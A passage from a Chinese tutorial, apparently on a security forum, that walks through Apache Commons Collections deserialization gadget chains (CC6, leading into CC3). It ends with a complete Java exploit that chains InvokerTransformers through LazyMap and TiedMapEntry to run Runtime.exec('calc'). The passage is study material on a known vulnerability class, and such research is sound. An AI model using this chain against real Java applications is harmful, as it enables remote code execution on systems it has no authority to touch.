 为啥呢，从URLDNS链也可以知道 ，`HashMap#put()`方法也是可以触发`hashcode`的，所以我们还需要用反射的方式去修改点属性让他反序列化出来也没问题

所以可以先让他put进去的时候是空的，然后put完去序列化的时候通过反射再给他赋值

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5cf62c707035449a9cc7fe401726d64befa6650c.png)

但是这里反序列化还是不会执行，为什么呢？通过调试我们发现他在`LazyMap#get()`方法的时候最后会把key return回去

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4bafee074ceb7875912bef1e54f00a95b77a7992.png)

那也就是说在put方法之后我们去把这个key给`remote`掉就好了

最终exp

```java
 Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9d469bb6431e86ca83fab14f32b61ce110cb3510.png)

‍

# 0x04 CC3

‍

CC3其实后半段就是动态类加载，其实就是跟`Fastjson`的<=1.2.24的Jdk7u21链子是一样的，(因为我先学了fastjson)

### TemplatesImpl链
